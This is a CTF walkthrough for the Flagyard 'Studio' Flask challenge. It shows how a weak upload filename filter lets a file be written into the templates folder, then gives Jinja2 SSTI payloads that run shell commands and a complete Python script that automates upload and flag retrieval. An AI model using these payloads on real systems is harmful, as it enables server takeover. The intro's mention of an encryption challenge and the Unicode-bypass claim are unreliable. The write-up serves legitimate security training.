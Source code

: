 # Studio - Flagyard CTF Walkthrough

This is a walkthrough for solving the **Studio** challenge from the **Flagyard CTF**. The challenge involves reversing a custom encryption process to retrieve the original input that satisfies the conditions.

## Challenge Description

What issues can arise with certain types of music?

```python
import os
from flask import Flask, render_template, request, redirect, url_for, flash, send_from_directory
from werkzeug.exceptions import RequestEntityTooLarge

app = Flask(__name__)
app.config['TEMPLATES_AUTO_RELOAD'] = True
app.config['UPLOAD_FOLDER'] = './music_files/'  # /app/music_files/
app.config['MAX_CONTENT_LENGTH'] = 1 * 1024 * 1024
app.config['SECRET_KEY'] = os.environ.get('SECRET_KEY') or '4cf129f6c1e7d7a7a96d944b78a935ac'

@app.route('/')
def home():
    page = request.args.get('page')
    try:
        return render_template('home.html', page=f'{page}.html')
    except:
        return render_template('home.html')

@app.route('/music')
def music():
    music_files = filter(lambda f: f.endswith('.mp3'), os.listdir(app.config['UPLOAD_FOLDER']))
    return render_template('music.html', music_files=music_files)

@app.route('/upload', methods=['POST'])
def upload():
    def safe_filename(file):
        if '../' in file:
            return safe_filename(file.replace('../', ''))
        return file
    try:
        music_file = request.files.get('music_file')
        dst_file = safe_filename(music_file.filename)
        if music_file and dst_file.split('.')[1] == 'mp3':
            flash('File uploaded')
            music_file.save(os.path.join(app.config['UPLOAD_FOLDER'], dst_file))
        else:
            flash('File blocked')
    except RequestEntityTooLarge:
        flash('File is too large')
    return redirect(url_for('music'))

@app.route('/download')
def download():
    music_file = request.args.get('music_file')
    if music_file:
        return send_from_directory(app.config['UPLOAD_FOLDER'], music_file, as_attachment=True)
    return redirect(url_for('home'))
```
We are provided with the server-side code of this web application. Let’s analyze the code to identify vulnerabilities and determine how to exploit them.

---

## /Route
```python
@app.route('/')
def home():
    page = request.args.get('page')
    try:
        return render_template('home.html', page=f'{page}.html')
    except:
        return render_template('home.html')
```
The / endpoint takes a page parameter from the URL and appends .html to it. If a file with that name exists in the templates folder, it renders that page. Otherwise, it defaults to rendering home.html. This behavior is key to exploiting the vulnerability, as we will see later.
---

## **/Music** Route

```python
@app.route('/music')
def music():
    music_files = filter(lambda f: f.endswith('.mp3'), os.listdir(app.config['UPLOAD_FOLDER']))
    return render_template('music.html', music_files=music_files)
```
The /music endpoint displays only files ending with .mp3 on the music.html page. It filters the list of files in the upload folder and passes only those with the .mp3 extension to the template.

---

## /upload Route
Now, let’s dive into the interesting part of the code.
```python
@app.route('/upload', methods=['POST'])
def upload():
    def safe_filename(file):
        if '../' in file:
            return safe_filename(file.replace('../', ''))
        return file
    try:
        music_file = request.files.get('music_file')
        dst_file = safe_filename(music_file.filename)
        if music_file and dst_file.split('.')[1] == 'mp3':
            flash('File uploaded')
            music_file.save(os.path.join(app.config['UPLOAD_FOLDER'], dst_file))
        else:
            flash('File blocked')
    except RequestEntityTooLarge:
        flash('File is too large')
    return redirect(url_for('music'))
```
The /upload endpoint handles the upload of a music_file provided by the user. The uploaded file's name is passed to the safe_filename() function to sanitize it.
```python
def safe_filename(file):
    if '../' in file:
        return safe_filename(file.replace('../', ''))
    return file
```
The safe_filename() function recursively checks for ../ in the filename and removes it if found. This aims to prevent directory traversal, but it's not effective. This can be bypassed using Unicode representations like \u002e\, which stands for ..

After sanitizing the filename, the code checks if the file extension is mp3. It does this by splitting the filename on the . character and checking whether the string after the first . is mp3. However, this method is flawed and can be bypassed with filenames like bypassed.mp3.php, where .mp3 is just a misleading part of the filename. This superficial check does not fully validate the actual file type.

If the file passes the extension check, the following line of code saves it:
```python
music_file.save(os.path.join(app.config['UPLOAD_FOLDER'], dst_file))
```
The os.path.join() function joins the upload folder with the filename, creating the final upload path. In this application, app.config['UPLOAD_FOLDER'] is set to ./music_files/, which means that if the sanitized filename is malicious.mp3, the final save path would be ./music_files/malicious.mp3.

However, the main vulnerability lies here: os.path.join() is susceptible to path traversal attacks because there is no validation to ensure that the final path remains within the intended music_files directory. For example, if a malicious filename like ../../evil.mp3 is provided and not sanitized adequately, it could allow the file to be saved outside of the intended folder, potentially overwriting critical files or saving in unauthorized locations.

In summary, the vulnerability arises due to incomplete sanitization and the lack of final path validation, making the endpoint susceptible to path traversal attacks. We can exploit this to save files in unintended directories, gaining unauthorized control over the file structure.

---

# Exploitation

To achieve Remote Code Execution (RCE) and retrieve the flag, one approach is to upload an HTML file to the templates directory (/app/templates) and achieve Server-Side Template Injection (SSTI) using it. Let’s begin the exploitation process.

There are two ways to solve this:

    Relative Path Method

    Absolute Path Method
### Relative Path Method

For the relative path method, we need ../ in our filename to reach the templates folder. However, since ../ is being filtered, we can bypass this restriction by using the Unicode representation for . (\u002e). Thus, our filename would be \u002e\u002e/templates/malicious.mp3.html, which is equivalent to ../templates/malicious.mp3.html. This allows us to navigate one directory back to where the templates folder is located, then move into the templates folder and save malicious.mp3.html there.

### Absolute Path Method

This method is simpler because we don’t need to bypass the ../ filter. We can simply provide the absolute path, which is /app/templates/malicious.mp3.html. The os.path.join() function will save it to the absolute path, effectively ignoring app.config['UPLOAD_FOLDER'] because an absolute path takes precedence over a relative path.

## SSTI Exploit

To exploit the SSTI vulnerability, we need a simple HTML file that can trigger SSTI when rendered. Below is a straightforward HTML file for this purpose:
```html
<html>
<head>
    <title>SSTI Exploit</title>
</head>
<body>
    <h1>Triggering SSTI</h1>
    <textarea type="text" id="page" name="page">{{7*7}}</textarea>
</body>
</html>
```
In this file, our SSTI payload is placed in the <textarea> element. This will evaluate the expression {{7*7}} if SSTI is present, allowing us to confirm that the vulnerability works.

The file is uploaded, but how do we access it? We can only see the output if malicious.mp3.html is rendered. This is where the following line of code comes in handy:
```python
render_template('home.html', page=f'{page}.html')
```
We can render our malicious.mp3.html by passing the page parameter like this:
```
http://your-instance-url/?page=malicious.mp3
```

This will render our HTML, and the result of 7*7 (which is 49) will be displayed in the <textarea> field, confirming that SSTI is successfully triggered.

---

## Final Payload for SSTI

Our final payload for SSTI will be:
```html
{{config.__class__.__init__.__globals__['os'].popen('ls -l /app').read()}}
```

This payload will achieve Remote Code Execution (RCE) using SSTI.

To execute this, simply replace the value and re-upload the file. Here is how the updated HTML file looks:
```html
<html>
<head>
    <title>SSTI Exploit</title>
</head>
<body>
    <h1>Triggering SSTI</h1>
    <textarea type="text" id="page" name="page">{{config.__class__.__init__.__globals__['os'].popen('ls -la').read()}}</textarea>
</body>
</html>
```

After uploading, access the payload by visiting:

```
http://your-instance-url/?page=malicious.mp3
```

This will render the updated HTML and execute the command, showing the output of ls -la in the <textarea> field, thus achieving RCE.

---

## Python Automated Script

I wrote a Python script to automate the entire process for retrieving the flag.
```python
import requests
import os
from urllib.parse import urlencode
from urllib.parse import urlparse
from bs4 import BeautifulSoup

url = "your-instance-url/"  # Add "/" at the end of the URL

def upload_file():
    parsed_url = urlparse(url)
    hostname = parsed_url.netloc

    headers = {
        'Host': hostname,
        'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryu1i8nw4tZ1Hi1EN7',
        'Connection': 'keep-alive',
    }

    data = '''------WebKitFormBoundaryu1i8nw4tZ1Hi1EN7\r\nContent-Disposition: form-data; name="music_file"; filename="/app/templates/malicious.mp3.html"\r\nContent-Type: text/html\r\n\r\n<html>
    <head>
        <title>SSTI Exploit</title>
    </head>
    <body>
        <h1>Triggering SSTI</h1>
        <form action="/" method="get">
            <input type="text" id="page" name="page" value="{{config.__class__.__init__.__globals__['os'].popen('cat $(find / -name flag.txt 2>/dev/null)').read()}}">
            <button type="submit">Submit</button>
        </form>
        <p id="output"></p>
    </body>
</html>\r\n------WebKitFormBoundaryu1i8nw4tZ1Hi1EN7--\r\n'''

    upload_url = f"{url}upload"
    response = requests.post(upload_url, headers=headers, data=data, verify=False)

    if "File uploaded" in response.text:
        print("[*] File uploaded successfully.")
    else:
        print("[*] Upload failed.")
        print(response.text)

def access_payload():
    access_url = f"{url}?page=malicious.mp3"
    response = requests.get(access_url)

    if response.status_code == 200:
        print("[*] Payload executed successfully.")

        soup = BeautifulSoup(response.text, 'html.parser')
        input_tag = soup.find('input', {'id': 'page'})

        if input_tag and input_tag.has_attr('value'):
            output = input_tag['value'].strip()

            if output:
                print(f"[*] Flag: {output}")
            else:
                print("Extracted value from input tag is empty.")
        else:
            print("Failed to locate the input element in the response.")
    else:
        print("Failed to execute payload.")

if __name__ == "__main__":
    upload_file()
    access_payload()

```
This script automates the process of uploading the malicious file, triggering the SSTI vulnerability, and retrieving the flag. Let me know if you need further assistance!

---
### Contact me: 

<a href="https://www.instagram.com/t2tt/" style="color: white; text-decoration: none;">
  <img src="https://upload.wikimedia.org/wikipedia/commons/9/95/Instagram_logo_2022.svg" alt="Instagram" width="30" />
</a>


